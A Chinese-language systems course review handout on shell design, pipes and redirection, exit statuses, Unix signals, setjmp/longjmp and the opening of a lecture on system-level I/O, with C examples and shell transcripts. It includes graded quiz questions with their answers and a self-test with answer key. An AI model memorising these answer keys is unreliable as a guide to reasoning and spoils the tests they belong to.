ls is /usr/bin/ls同样的道理，exit（结束 shell 自己）、export 和变量赋值（改变 shell 的环境，之后 execve 时传给新程序）、jobs、fg、bg（操作 shell 自己记录的作业表）都只能是内置命令。echo 本来可以是外部程序（/usr/bin/echo 也存在），做成内置只是为了省掉一次 fork 和 execve。tsh 的内置命令 quit、jobs、bg、fg 也是这样选出来的。
管道与重定向：pipe、dup2 与进程组#
ls / | wc -l 是 shell 最有代表性的功能，它完全由几个系统调用拼成。shell 先用 pipe 创建一个管道，得到读端和写端两个文件描述符；然后 fork 两次，第一个子进程用 dup2 把标准输出换成管道的写端，第二个子进程把标准输入换成读端，各自关掉多余的描述符后 execve；两个子进程放进同一个进程组，作为一个作业；最后父进程关掉自己手里的两端，等待两个子进程：
pipe(fd); /* fd[0] 读端，fd[1] 写端 */
if ((p1 = fork()) == 0) {
setpgid(0, 0); /* 第一个进程新建进程组 */
dup2(fd[1], 1); /* 标准输出接到管道写端 */
close(fd[0]); close(fd[1]);
execvp(ls[0], ls);
_exit(127);
}
setpgid(p1, p1); /* 父进程也设一次，免得竞争 */
if ((p2 = fork()) == 0) {
setpgid(0, p1); /* 第二个进程加入同一组 */
dup2(fd[0], 0); /* 标准输入接到管道读端 */
close(fd[0]); close(fd[1]);
execvp(wc[0], wc);
_exit(127);
}
setpgid(p2, p1);
close(fd[0]); close(fd[1]); /* 父进程必须关掉两端 */
waitpid(p1, &st1, 0);
waitpid(p2, &st2, 0);这几行里处处是本讲和上一讲的知识。fork 与 execve 分成两步，正是为了留出中间这段时间：子进程已经存在，新程序还没有开始，shell 可以替它重定向、设进程组、恢复信号掩码（17.10 节）。setpgid 在父子进程中各调用一次，是因为不知道谁先运行，两边都设才能保证 Ctrl-C 到来之前作业已经在自己的组里。最后父进程的 close 不能省：管道的读端只有在所有写端都关闭后才读到文件结束，如果 shell 自己还拿着写端，wc 就永远等下去。默认环境上把这一行删掉，程序挂住，直到 timeout 杀死父进程、写端随之关闭，wc 才输出结果。在 bash 中运行 sleep 1 | sleep 1 | sleep 1 & 再用 ps 查看，三个 sleep 的进程组号相同，就是第一个 sleep 的 PID。
重定向也是在 fork 之后、execve 之前用 dup2 完成的，并且按书写的顺序从左到右执行。所以 cmd > a.txt 2>&1 先把标准输出指向文件，再让标准错误指向“标准输出现在指向的地方”，两者都进了文件；而 cmd 2>&1 > b.txt 先让标准错误指向终端（标准输出原来的去处），再把标准输出改到文件，错误信息仍然出现在终端上。默认环境上用一个同时向两处输出的函数验证，a.txt 中是 out 和 err 两行，b.txt 中只有 out。
用一个整数表示成败#
一个进程能交给父进程的结果只有一个退出状态（16.11 节），Unix shell 的整套错误处理都建立在这个整数上。约定是：0 表示成功，非零表示失败。shell 自己又占用了几个值：找不到命令时为 127，找到了但不能执行时为 126，进程被信号 n 终止时报告 128 + n。默认环境上的实测：
false -> 1
exit 300 -> 44 # 只保留低 8 位：300 = 256 + 44
kill -TERM $$ -> 143 # 128 + 15
kill -KILL $$ -> 137 # 128 + 9
nosuchcmd -> 127
false | true -> 0 # 管道的状态是最后一个命令的状态
pipefail 下 false | true -> 1用一个小整数表示成败，好处是简单、通用，任何语言写的程序都能遵守；代价是信息太少，而且 shell 默认忽略失败：一条命令失败了，下一条照样执行。bash 提供 set -e 让脚本在命令失败时立即退出，可是它的例外很多，默认环境上的几个例子都没有退出：false | true 不算失败，因为管道的状态是最后一个命令的；if false; then ... 中的 false 用作条件，不算失败；函数 f 中先执行 false 再 echo，用 f || echo failed 调用时，f 内部的 false 也不会让脚本退出，echo 照样执行。这些规则都有它的理由（条件判断中的失败本来就是正常结果），但合在一起很难记清，这正是“只有一个整数”的设计留下的问题。
一切皆文本#
Unix 的管道里传递的是字节流。Peter Salus 把 McIlroy 等人的 Unix 哲学概括成三句话：写只做一件事并做好的程序；写能够协同工作的程序；写处理文本流的程序，因为文本是通用的接口。文本确实通用，任何程序都能读写，可是结构在传递中丢掉了，下游的程序只能靠空格、换行把它重新切开。shell 自己的“分词”规则就是这样工作的：没有加引号的变量和命令替换，结果会按空白切成几个词。默认环境上，一个目录中有 my file.txt 和 plain.txt 两个文件：
$ for x in $(ls); do echo "[$x]"; done
[my]
[file.txt]
[plain.txt]
$ for x in *; do echo "[$x]"; done
[my file.txt]
[plain.txt]ls 输出的文本中，文件名里的空格和文件名之间的分隔无法区分，my file.txt 被拆成了两个词；用通配符 * 时，文件名由 shell 直接从目录中读出，不经过文本，就不会出错。同样，v='a b' 之后，printf '[%s]' $v 输出 [a][b]，加上引号 "$v" 才输出 [a b]。写 shell 脚本时“变量一律加引号”的习惯，就是为了对付分词这条规则。
几种不同的回答#
面对这些问题，不同的 shell 给出了不同的回答。
POSIX 标准规定了 sh 的语法和行为，所有遵守它的 shell 都能运行同一个脚本。Ubuntu 的 /bin/sh 是 dash，一个只实现 POSIX 功能的小 shell，启动和执行都比 bash 快，系统的启动脚本用它。默认环境上，dash 能算 $((1+2))，却不认识 bash 扩展的双方括号条件测试，把它当作一个找不到的命令报错。写给 /bin/sh 的脚本如果用了 bash 的扩展，换一台机器就可能出错，这是“兼容标准”与“功能丰富”之间的取舍。
bash 和 zsh 在 POSIX 的基础上扩展了大量功能。zsh 在交互方面更丰富（补全、主题、插件），2019 年起是 macOS 的默认 shell；它也改掉了一些历史包袱，例如默认不对未加引号的变量分词，上面 $v 的例子在 zsh 中不加引号也会输出 [a b]，代价是与 POSIX 不完全兼容。
fish（friendly interactive shell）把交互体验放在第一位，干脆不兼容 POSIX。它的设计文档列出了几条原则：语言只保留一小组不重叠的功能；shell 必须时刻保持响应；“可配置是万恶之源”，每个配置选项都说明程序没有替用户想清楚；先设计好用的界面，再考虑实现；功能要容易被用户自己发现。退出状态在 fish 中写作 $status。fish 的底层与 bash 并无二致，同样是 fork、execve、进程组和信号，它改变的是用户看到的语言。
PowerShell 走得最远，它直接针对“一切皆文本”。设计者 Jeffrey Snover 在 2002 年的《Monad 宣言》中批评 Unix 管道：每个命令都把“取得数据、处理数据、打印成文本”绑在一起，下游只能从文本中重新解析出结构，他称之为“祈祷式解析”（prayer-based parsing），解析时只能祈祷列的位置和行数没有变。PowerShell 的回答是对象管道：命令称为 cmdlet，是在 PowerShell 进程内部运行的 .NET 类，管道中传递的是带类型、带属性的对象。Get-Process | Sort-Object WS | Select-Object -First 3 按内存占用排序时，直接比较对象的 WS 属性，不用去数 ps 输出的第几列；文件名中有空格也不会被拆开，因为它从来没有变成过文本。cmdlet 统一用“动词-名词”的形式命名（Get-Process、Stop-Process），也是为了让用户容易猜到命令的名字。
错误处理上，PowerShell 也换了模型：cmdlet 的错误分成“不终止”的（报告后管道继续运行）和“终止”的（像异常一样，可以用 try、catch 捕获），用 -ErrorAction 参数或 $ErrorActionPreference 变量可以把前者升级为后者。可是对 git 这样的外部程序，PowerShell 能知道的仍然只有退出码：非零时 $? 为假，退出码存在 $LASTEXITCODE 中，默认不会产生可以 catch 的错误；直到 PowerShell 7.3（7.4 起成为正式功能）才可以用 $PSNativeCommandUseErrorActionPreference 让非零退出码也按错误处理。对象和异常只在 PowerShell 内部有效，一旦跨过进程的边界，又回到了那个整数。
Unix 与 Windows 的进程模型#
PowerShell 最常运行在 Windows 上，而 Windows 的进程模型与本讲、上一讲的 Unix 模型有好几处根本的不同。表 3 列出了与 Shell Lab 最相关的几项。
表 3 Unix 与 Windows 在 shell 所依赖的机制上的对比
| 方面 | Unix（本讲、上一讲） | Windows |
|---|---|---|
| 创建进程 | fork 复制自己，再 execve 换成新程序；两步之间子进程可以调整自己（重定向、setpgid、恢复信号掩码） | CreateProcess 一步创建新进程并加载程序；重定向、新进程组等都作为参数传进去，Win32 没有 fork |
| 得知子进程结束 | SIGCHLD 加 waitpid | 等待子进程的进程句柄 |
| 退出状态 | 只保留低 8 位，0–255 | 32 位的退出码 |
| Ctrl-C | 行规程向终端的前台进程组发送 SIGINT | 控制台向连接在这个控制台上的进程发送 CTRL_C_EVENT；处理函数由系统在进程中新建的一个线程里执行，默认的处理函数结束进程 |
| 管道中的数据 | 字节 | 外部程序之间是字节；PowerShell 的 cmdlet 之间是 .NET 对象 |
第一行和第四行最值得对照。Unix 把“创建进程”拆成 fork 和 execve 两步，shell 在两步之间用普通的系统调用完成重定向和进程组设置，不需要专门的接口；Windows 把这些都做成 CreateProcess 的参数，一步完成，没有“子进程已经存在、新程序还没开始”的那段时间。Unix 的信号处理程序打断主程序，在同一个线程里插进来运行，所以才有 17.8 节的种种规则；Windows 的控制台处理函数由系统新建一个线程执行，与主程序是两个真正并发的线程，问题变成了多线程同步，微软的文档专门提醒要做好处理函数线程与其他线程之间的同步。两种设计都要面对“程序之外的事件打断正在进行的工作”这一本讲的核心问题，只是把它放在了不同的地方。
回到 Shell Lab#
tsh 实现的正是这一节前几部分的骨架：内置命令、前台与后台作业、进程组、SIGCHLD 回收，有的版本还要求 I/O 重定向。其中一处要求和真实的 bash 不同。tsh 自己是 bash 的前台作业，终端的前台进程组是 tsh 所在的组；tsh 为每个作业 setpgid(0, 0) 建立新的进程组，这些作业因此不在终端的前台进程组里，按 Ctrl-C 时 SIGINT 只发给 tsh。所以实验要求 tsh 捕获 SIGINT、SIGTSTP，再用 kill(-pid, sig) 转发给自己的前台作业（17.3 节 kill 的规则）。真正的 bash 不需要这样转发：它是会话首进程，用 tcsetpgrp 把终端的前台进程组切换成作业的进程组，Ctrl-C 由内核直接发给作业。tsh 用“捕获并转发”代替了 tcsetpgrp，省去了终端控制的细节，却保留了进程组、信号转发、SIGCHLD 回收这些本讲的核心机制。17.1 节的 shellex 不建进程组，Ctrl-C 会连后台作业一起杀死，tsh 的做法正是为了避免这一点。
★ 要点：shell 的设计取舍
内置命令是那些要改变 shell 自身状态的命令（cd、exit、export、jobs、fg）。管道和重定向由 pipe、fork、dup2、execve 拼成，作业是一个进程组，fork 与 execve 之间的空隙正是做这些事的地方。Unix shell 用一个 0–255 的退出状态表示成败，默认忽略失败；用文本流连接程序，通用但会丢掉结构。POSIX sh、bash、zsh、fish、PowerShell 在“兼容”“交互”“结构化数据”之间做了不同的选择，但只要运行的是外部程序，底层都还是创建进程、等待它结束、读出一个退出状态。
17.15 小结（课件 p.74）#
信号提供了进程级的异常处理（课件 p.74）：用户程序可以产生信号，可以通过安装处理程序来定义信号的效果，但编写处理程序必须非常小心。非本地跳转在进程内部提供异常控制流，但要受到栈纪律的约束。
把上一讲和这一讲中“调用一次、返回几次”的函数放在一起，是考试中经常出现的对比：
表 4 几个“特别”的函数
| 函数 | 调用与返回 | 说明 |
|---|---|---|
| fork | 调用一次，返回两次 | 父进程中返回子进程的 PID，子进程中返回 0（16.8 节） |
| execve | 调用一次，正常情况下不返回 | 只有出错时才返回 −1（16.12 节） |
| exit | 调用一次，从不返回 | 终止进程，进程成为僵死进程等待回收（16.10 节） |
| setjmp | 调用一次，返回一次或多次 | 第一次返回 0，每次 longjmp 再返回一次（17.12 节） |
| longjmp | 调用一次，从不返回 | 跳到 env 记录的 setjmp 处（17.12 节） |
| 信号处理程序 | 不由程序调用 | 由内核在接收信号时调用；返回后回到被打断的下一条指令（17.4 节） |
第二部分 2026 阶段测验第 17 讲真题解析#
第 17 讲没有单独的小班研讨题和作业题。2026 年第 2 次阶段测验（2026-11-16）的“第 16/17 讲”一组中，16.3 和 16.5 两题考的是本讲内容，这里给出解析；整份试卷的解析见《ICS2026第2次阶段测验-试题解析》。练习还可以用第四部分的自测题。
16.3 信号不排队与回收子进程（4 分）#
16.3某父进程已安装 SIGCHLD 信号处理函数，并阻塞了 SIGCHLD。该父进程共有 3 个子进程。在解除阻塞前，3 个子进程均已终止，相应的 SIGCHLD 均已产生，但父进程尚未调用 wait 或 waitpid，也未启用自动回收。考虑下面两种不同的信号处理函数（两种方案分别独立执行，初始条件完全相同）。父进程解除 SIGCHLD 阻塞。假设此后没有新的子进程状态变化，也没有其他相关信号或系统调用错误。只讨论课件中的普通信号。
（1）解除阻塞前，父进程的 pending 向量中，SIGCHLD 对应位的数值为 ____。（1 分）
（2）方案 A 的处理函数执行结束后，仍有 ____ 个已终止但尚未被回收的子进程。（1 分）
（3）方案 B 的处理函数中，waitpid 返回正 PID 的次数为 ____。（1 分）
（4）方案 B 的处理函数中，waitpid 总共被调用 ____ 次。（1 分）
/* 方案 A */
void handler(int sig) {
waitpid(-1, NULL, 0);
}
/* 方案 B */
void handler(int sig) {
while (waitpid(-1, NULL, 0) > 0)
;
}答案
（1）1 （2）2 （3）3 （4）4
（1）3 个 SIGCHLD 到达时都被阻塞。同一种信号只有一个待处理位（17.2 节），三次发送都只是把这一位置 1，所以是 1，不是 3。（2）解除阻塞后这个待处理信号被接收，处理函数只运行一次；方案 A 只回收一个子进程，另外两个成了没人回收的僵死进程。这就是 17.9 节 fork14 的错误。（3）方案 B 循环调用 waitpid，前三次各回收一个子进程，返回它们的 PID。（4）第四次调用时已经没有子进程，waitpid 返回 −1（errno 为 ECHILD），循环结束，共调用 4 次。这是 17.9 节 fork15 的写法。
按题目条件写成的程序如下（头文件从略），处理函数中顺带统计 waitpid 的调用次数和回收的个数：
volatile sig_atomic_t calls = 0, reaped = 0, handler_runs = 0;
int planB;
void handler(int sig)
{
int olderrno = errno;
handler_runs++;
if (!planB) { /* 方案 A */
calls++;
if (waitpid(-1, NULL, 0) > 0) reaped++;
} else { /* 方案 B */
while (calls++, waitpid(-1, NULL, 0) > 0)
reaped++;
}
errno = olderrno;
}
int main(int argc, char **argv)
{
planB = argc > 1; /* 带参数时用方案 B */
sigset_t m, prev, p;
signal(SIGCHLD, handler);
sigemptyset(&m); sigaddset(&m, SIGCHLD);
sigprocmask(SIG_BLOCK, &m, &prev);
for (int i = 0; i < 3; i++)
if (fork() == 0) _exit(0);
sleep(1); /* 3 个子进程都已终止 */
sigpending(&p);
printf("pending SIGCHLD bit = %d\n", sigismember(&p, SIGCHLD));
sigprocmask(SIG_SETMASK, &prev, NULL); /* 解除阻塞，处理函数在这里运行 */
int left = 0;
while (waitpid(-1, NULL, WNOHANG) > 0) /* 处理函数之后还剩几个僵死进程 */
left++;
printf("plan %c: handler ran %d time(s), waitpid calls %d, reaped %d, left %d\n",
planB ? 'B' : 'A', (int)handler_runs, (int)calls, (int)reaped, left);
return 0;
}在默认环境上运行：sigpending 读出的待处理位为 1；方案 A 的处理函数运行 1 次、回收 1 个，事后还能用 waitpid 回收另外 2 个；方案 B 的处理函数运行 1 次，waitpid 调用 4 次、回收 3 个。一个 SIGCHLD 只说明“至少有一个”子进程终止了，处理函数必须循环回收。
16.5 setjmp 与 longjmp（2 分）#
16.5阅读下面的程序，必要头文件已包含，env 和 x 均为全局变量。程序正常运行，最后 printf 输出的十进制数为 ____。
jmp_buf env;
int x = 0;
void f(void)
{
x = 7;
longjmp(env, 2);
x = 9;
}
int main(void)
{
switch (setjmp(env)) {
case 0:
x = 1;
f();
x = 3;
break;
case 2:
x += 4;
break;
}
printf("%d\n", x);
return 0;
}答案
11
第一次调用 setjmp 返回 0，进入 case 0，x = 1，调用 f；f 把 x 改成 7，然后 longjmp(env, 2)。控制回到 setjmp，这次 setjmp 返回 2，进入 case 2，x 变成 7 + 4 = 11。f 中 longjmp 之后的 x = 9 和 case 0 中 f() 之后的 x = 3 都不会执行：longjmp 从不返回，case 0 那条执行路径被整个丢弃。默认环境上编译运行，输出 11。
⚠ 这里的 x 为什么一定是 7
x 是全局变量。longjmp 恢复的只是寄存器和栈指针，不会改动内存中的全局变量，所以跳回来之后 x 仍是 f 改过的 7。如果 x 是 main 的局部变量又没有声明为 volatile，跳回来后它的值就不确定了（17.12 节的实验中，-O2 编译时局部变量回到了 setjmp 时的旧值）。
第三部分 复习速查#
3.1 信号的基本规则#
表 5 信号的生命周期（17.2–17.4 节）
| 阶段 | 规则 |
|---|---|
| 发送 | 内核把目的进程 pending 的第 k 位置 1。原因：内核检测到事件（SIGFPE、SIGCHLD……），或某个进程调用了 kill |
| 待处理 | 已发送、未接收。每种信号只有 1 位，不排队：再来同类信号直接丢弃 |
| 阻塞 | blocked 的第 k 位为 1 时，k 可以成为待处理，但不被接收；解除阻塞后立即接收 |
| 接收的时刻 | 进程从内核模式返回用户模式时，计算 pnb = pending & ~blocked，按最小的 k 依次接收 |
| 接收的动作 | 默认行为（终止、终止并转储、停止、忽略），或执行处理程序；SIGKILL、SIGSTOP 不能捕获也不能忽略 |
| 处理程序返回 | 回到被打断的控制流中的下一条指令 |
表 6 常考的信号（17.2 节，默认环境实测）
| 号 | 名字 | 默认行为 | 来源 |
|---|---|---|---|
| 2 | SIGINT | 终止 | Ctrl-C，发给前台进程组 |
| 9 | SIGKILL | 终止 | 不能捕获、不能忽略 |
| 11 | SIGSEGV | 终止并转储 | 非法内存引用 |
| 14 | SIGALRM | 终止 | alarm 定时器 |
| 15 | SIGTERM | 终止 | kill 命令的默认信号 |
| 17 | SIGCHLD | 忽略 | 子进程停止或终止 |
| 18 | SIGCONT | 继续 | fg、bg 命令 |
| 19 | SIGSTOP | 停止 | 不能捕获、不能忽略 |
| 20 | SIGTSTP | 停止 | Ctrl-Z，发给前台进程组 |
3.2 函数#
表 7 本讲的函数（17.3–17.12 节）
| 函数 | 要点 |
|---|---|
| kill(pid, sig) | pid 大于 0：发给该进程；0：发给自己的进程组；−1：发给所有能发的进程；小于 −1：发给进程组 −pid |
| alarm(secs) | secs 秒后给自己发 SIGALRM |
| getpgrp()、setpgid(pid, pgid) | 取得、设置进程组；setpgid(0, 0) 新建以自己 PID 为号的进程组 |
| signal(signum, handler) | handler 为 SIG_IGN、SIG_DFL 或处理程序地址；失败返回 SIG_ERR |
| sigprocmask(how, set, old) | SIG_BLOCK 加入，SIG_UNBLOCK 删去，SIG_SETMASK 替换；old 保存原来的集合 |
| sigemptyset、sigfillset、sigaddset、sigdelset、sigismember | 操作信号集 |
| pause() | 睡眠直到收到一个被捕获或会终止进程的信号 |
| sigsuspend(mask) | 原子地：用 mask 替换阻塞集合并睡眠；处理程序返回后恢复原集合再返回 |
| setjmp(env)、longjmp(env, v) | setjmp 第一次返回 0，longjmp 使它再返回 v（v 为 0 时返回 1）；只能跳到尚未返回的函数 |
| sigsetjmp(env, 1)、siglongjmp(env, v) | 同时保存、恢复阻塞集合；在处理程序中跳转要用这一对 |
3.3 编写处理程序的规则#
表 8 G0–G5（课件 p.50，17.8 节）
| 规则 | 内容 | 防止什么 |
|---|---|---|
| G0 | 处理程序尽量简单，比如只设一个标志 | 一切并发问题 |
| G1 | 只调用异步信号安全的函数（write、_exit、waitpid、kill、sleep、SIO） | printf、malloc 的内部数据被破坏 |
| G2 | 进入时保存 errno，返回前恢复 | 主程序读到被改掉的 errno |
| G3 | 访问共享数据结构时阻塞所有信号 | 数据结构改到一半被处理程序看到 |
| G4 | 全局变量声明为 volatile | 编译器把变量留在寄存器中 |
| G5 | 标志声明为 volatile sig_atomic_t | 读、写被打断在一半 |
3.4 三个固定的写法#
回收子进程（17.9 节）：一个 SIGCHLD 只说明至少有一个子进程终止，处理程序要循环回收。
while ((pid = waitpid(-1, &status, WNOHANG)) > 0) {
/* 处理一个终止的子进程 */
}避免 addjob 与 deletejob 的竞争（17.10 节）：fork 之前阻塞 SIGCHLD，addjob 之后恢复；子进程 execve 之前先恢复。
Sigprocmask(SIG_BLOCK, &mask_one, &prev_one); /* 阻塞 SIGCHLD */
if ((pid = Fork()) == 0) {
Sigprocmask(SIG_SETMASK, &prev_one, NULL);
Execve(...);
}
Sigprocmask(SIG_BLOCK, &mask_all, NULL);
addjob(pid);
Sigprocmask(SIG_SETMASK, &prev_one, NULL);等待前台作业结束（17.11 节）：检查标志时信号是阻塞的，用 sigsuspend 原子地解除阻塞并睡眠。
while (!pid)
Sigsuspend(&prev); /* prev 是不含 SIGCHLD 的原阻塞集合 */第四部分 自测题#
每题先自己做，再看答案。
1．进程在什么时刻检查待处理信号并调用处理程序？(a) 随时；(b) 从用户模式进入内核模式时；(c) 从内核模式返回用户模式时；(d) 只在调用 pause 时。
2．一个进程阻塞了 SIGUSR1，在阻塞期间收到 4 个 SIGUSR1，然后解除阻塞。它的 SIGUSR1 处理程序会运行几次？为什么？
3．下面哪些信号的默认行为不能改变？(a) SIGINT；(b) SIGKILL；(c) SIGCHLD；(d) SIGSTOP；(e) SIGTSTP。
4．按下 Ctrl-Z 时，内核向谁发送什么信号？简单 shell（shellex）中按 Ctrl-C 为什么会把后台作业也一起终止？
5．下面的处理程序违反了哪几条规则？怎样改？
int count = 0;
void handler(int sig)
{
count++;
printf("got signal %d, count = %d\n", sig, count);
if (waitpid(-1, NULL, 0) < 0)
exit(1);
}6．用 SIGCHLD 的处理程序回收子进程时，为什么处理程序中要用循环？如果处理程序是在 shell 中，循环中的 waitpid 应当加什么选项？
7．sigsuspend(&mask) 等价于下面哪一组语句的原子版本？(a) sigprocmask(SIG_BLOCK, &mask, &prev); pause(); sigprocmask(SIG_SETMASK, &prev, NULL);；(b) sigprocmask(SIG_SETMASK, &mask, &prev); pause(); sigprocmask(SIG_SETMASK, &prev, NULL);。为什么不能直接写成这三条语句？
8．下面的程序输出什么？
jmp_buf env;
int f(int n)
{
if (n == 3)
longjmp(env, n);
return f(n + 1);
}
int main(void)
{
int r = setjmp(env);
printf("r = %d\n", r);
if (r == 0)
f(0);
return 0;
}9．在信号处理程序中跳回主程序时，为什么要用 sigsetjmp(buf, 1) 和 siglongjmp，而不用 setjmp 和 longjmp？
10．下面的程序，可能的输出有哪些？（假定 printf 都立即输出。）
volatile sig_atomic_t n = 0;
void handler(int sig) { n++; }
int main(void)
{
signal(SIGUSR1, handler);
pid_t pid = fork();
if (pid == 0) {
kill(getppid(), SIGUSR1);
kill(getppid(), SIGUSR1);
exit(0);
}
waitpid(pid, NULL, 0);
printf("%d\n", n);
return 0;
}自测题答案#
1．(c)。内核在把控制交还给进程之前计算 pnb = pending & ~blocked，非零时让进程接收信号（17.4 节）。“随时”不对，因为信号只是把 pending 位置 1；“进入内核时”也不对。
2．一次。每种信号只有一个待处理位，阻塞期间的 4 个 SIGUSR1 只把这一位置成 1，后面 3 个被丢弃（17.2 节，实测 5 个 SIGUSR2 只处理一次）。
3．(b) 和 (d)。SIGKILL 和 SIGSTOP 既不能捕获也不能忽略，对它们调用 signal 返回 SIG_ERR、errno 为 EINVAL（17.5 节，实测）。SIGTSTP 可以捕获，Shell Lab 的 tsh 就捕获它，再把它转发给前台作业。
4．内核向终端的前台进程组中的每个进程发送 SIGTSTP（17.3 节）。shellex 不调用 setpgid，它的子进程（包括后台作业）和 shellex 自己都在 bash 为它建立的那个前台进程组里，Ctrl-C 的 SIGINT 发给这个组中的每个进程，后台作业也收到了（17.1 节，实测）。真正的 shell 让每个作业 setpgid(0, 0) 进入自己的进程组。
5．printf 和 exit 不是异步信号安全的，违反 G1，改用 Sio_puts、Sio_putl 和 _exit；没有保存和恢复 errno，违反 G2；count 不是 volatile，违反 G4（作为计数器又有 count++，也不能只靠 sig_atomic_t）；waitpid 不在循环中，选项为 0 时还会阻塞，见第 6 题。另外，如果这个处理程序同时处理 SIGCHLD 以外的信号，用 count 计数本身就不可靠，因为信号不排队。
6．几个子进程几乎同时终止时，它们的 SIGCHLD 合并成一个待处理位，处理程序只运行一次，它必须把所有已终止的子进程都回收掉，否则剩下的会成为僵死进程（17.9 节，fork14 实测只回收了 2 个）。在 shell 中要加 WNOHANG：回收所有已经终止的子进程，有子进程还在运行时立即返回 0，而不是阻塞等待它。
7．(b)。sigsuspend 用 mask 替换阻塞集合，不是加入（17.11 节，课件 p.62 和教材写的 SIG_BLOCK 不准确，实测见该节）。不能直接写成三条语句，因为信号可能恰好在第一条解除阻塞之后、pause 开始之前到达，处理程序运行之后 pause 才开始睡眠，就要等下一个信号；sigsuspend 把这两步合成一个原子操作，消除了这个窗口。
8．两行：r = 0 和 r = 3。第一次 setjmp 返回 0，调用 f(0)，递归到 f(3) 时 longjmp(env, 3)，控制回到 setjmp，这次返回 3，再打印一次；r 不为 0，不再调用 f。f 的 4 层栈帧被一次丢弃（17.12 节）。
9．处理程序运行时，正在处理的信号被隐式阻塞，正常返回时才自动解除。用 longjmp 跳走，处理程序没有返回，这个信号就一直被阻塞。sigsetjmp(buf, 1) 保存阻塞集合，siglongjmp 恢复它（17.12 节，实测改用 setjmp、longjmp 后第二次 Ctrl-C 没有反应）。
10．输出 1 或 2。两个 SIGUSR1 可能被分别处理，也可能合并成一个待处理位（17.9 节）；父进程至少处理一次，因为它从 waitpid 返回到用户模式之前一定会接收待处理的 SIGUSR1，所以不可能是 0。默认环境上运行 1000 次，1 出现 975 次，2 出现 25 次。
—— 第 17 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 18 讲
系统级 I/O（System-Level I/O）
如何使用本讲义#
前面几讲的程序都离不开 I/O：printf 把结果显示在终端上，shell 把命令的输出写进文件，Shell Lab 的 tsh 要支持 < 和 >。这一讲往下看一层，看这些操作在操作系统中是怎样实现的。课件分成四部分。第一部分是 Unix I/O（18.1–18.4 节）：Linux 把一切 I/O 设备都看成文件，内核只提供打开、关闭、读、写、移动文件位置这几个操作，读写时可能出现“不足值”。第二部分是元数据、共享与重定向（18.5–18.8 节）：内核用三张表表示打开的文件，fork 之后父子进程怎样共享文件，shell 怎样用 dup2 实现重定向。第三部分是两套建立在 Unix I/O 之上的库：C 的标准 I/O（18.9 节）和教材的 RIO 包（18.10 节）。最后比较三套 I/O 的长处和短处（18.11 节）。18.12 节是讲义的拓展，把本讲的内容用到 Shell Lab 的 I/O 重定向上。
本讲的结论大多可以直接在机器上验证：strace 能数出程序到底做了几次 read 和 write，/proc/self/fd 能看到进程的描述符表。讲义对每个程序都给出默认环境上的实际结果，课件中代码的几处错误也一并指出。
表 1 第 18 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| Unix I/O 概览（p.2–5） | 文件是字节序列；一切 I/O 设备都是文件；五个基本操作 | 18.1 |
| 文件类型与目录（p.6–10） | 普通文件、目录、套接字；文本行与行尾；路径 | 18.2 |
| 打开、关闭、读写（p.11–14） | 描述符；open 的标志与权限；返回值与错误检查 | 18.3 |
| 不足值（p.15–17） | 什么时候 read、write 会少读少写；逐字节与成块读写的代价 | 18.4 |
| 元数据（p.19–20） | stat、fstat；statcheck | 18.5 |
| 打开文件的表示与共享（p.21–24） | 描述符表、打开文件表、v-node 表；fork 后的共享 | 18.6 |
| I/O 重定向（p.25–27） | dup2 做了什么；shell 怎样实现 ls > foo.txt | 18.7 |
| 程序示例（p.28–31、p.56–58） | ffiles1、ffiles2、ffiles3 的输出 | 18.8 |
| 标准 I/O（p.33–38） | 流；三种缓冲方式；什么时候真正 write | 18.9 |
| RIO 包（p.40–49） | rio_readn、rio_writen；带缓冲的 rio_readlineb、rio_readnb | 18.10 |
| 怎样选择（p.51–55、p.59） | 三套 I/O 的长处与短处；二进制文件；读目录 | 18.11 |
| 讲义拓展：Shell Lab 中的 I/O 重定向 | tsh 的 <、> 与 jobs > foo 应当怎样做；参考 shell 的实测行为 | 18.12 |
| 小结（p.60） | 本讲的主线 | 18.13 |
第一部分 知识点#
18.1 Unix I/O：一切都是文件（课件 p.2–5）#
程序能用的 I/O 函数分成三层（图 1，课件 p.3）。最底下是 Unix I/O：open、read、write、lseek、stat、close 等，它们都是系统调用，由内核实现。往上有两套建立在 Unix I/O 之上的库：一套是 C 语言自带的标准 I/O（fopen、fgets、printf……），平时写程序用得最多；另一套是教材作者写的 RIO（robust I/O）包，在 csapp.c 中，专门处理读写中容易出错的情况。这一讲从底层讲起。
图 1 三套 I/O 的层次：标准 I/O 与 RIO 都是在 Unix I/O 之上实现的（课件 p.3、p.40）
Linux 中的文件就是一个 m 字节的序列 B0、B1、……、Bm−1（课件 p.4）。内核不关心这些字节是什么意思，是文本、图片还是程序，对它来说都只是字节。更进一步，所有的 I/O 设备也都被表示成文件：磁盘分区是 /dev/sda2 之类的文件，终端是 /dev/tty2 之类的文件，甚至内核的数据结构也以文件的形式出现在 /proc 目录下。在默认环境上可以看到，/dev/null、/dev/tty 都是“字符设备文件”，磁盘是块设备文件 /dev/vda，而 /proc/self/status 是一个可以直接用 cat 读的文本文件，里面是当前进程的状态。
把设备都映射成文件，内核就只需要提供一组很小的接口（课件 p.5）：打开和关闭文件（open、close），读和写（read、write），以及改变当前文件位置（lseek）。文件位置是内核为每个打开的文件维护的一个偏移量 k，表示下一次读写从第 k 个字节开始；每读写 n 个字节，它就向后移动 n。不论读的是磁盘文件、终端还是网络连接，程序用的都是这同一组函数，这就是“一切皆文件”的好处。
18.2 文件类型、文本行与目录（课件 p.6–10）#
每个文件都有一个类型（课件 p.6）。本课程关心三种：普通文件（regular file）包含任意数据；目录（directory）是一组相关文件的索引；套接字（socket）用来和另一台机器上的进程通信，网络编程（第 22、23 讲）会用到。此外还有命名管道、符号链接、字符设备和块设备，课件不展开。ls -l 第一个字符就是类型：- 普通文件、d 目录、l 符号链接、c 字符设备、b 块设备、s 套接字、p 命名管道。
应用程序常常把普通文件分成文本文件和二进制文件（课件 p.7）：文本文件只含 ASCII 或 Unicode 字符，其余都是二进制文件，比如目标文件和图片。但内核并不区分这两者，这种区分完全是应用程序的约定。文本文件是一串文本行，每行以换行符结束。Linux 和 macOS 的换行符是 \n（0x0a，LF，line feed）；Windows 和许多网络协议用两个字符 \r\n（0x0d 0x0a，CR LF）。所以 Windows 下保存的文本文件拿到 Linux 上，每行末尾会多出一个 \r：
$ cat -v win.txt
hello^M
world^M
$ od -c win.txt
0000000 h e l l o \r \n w o r l d \r \n
$ file win.txt
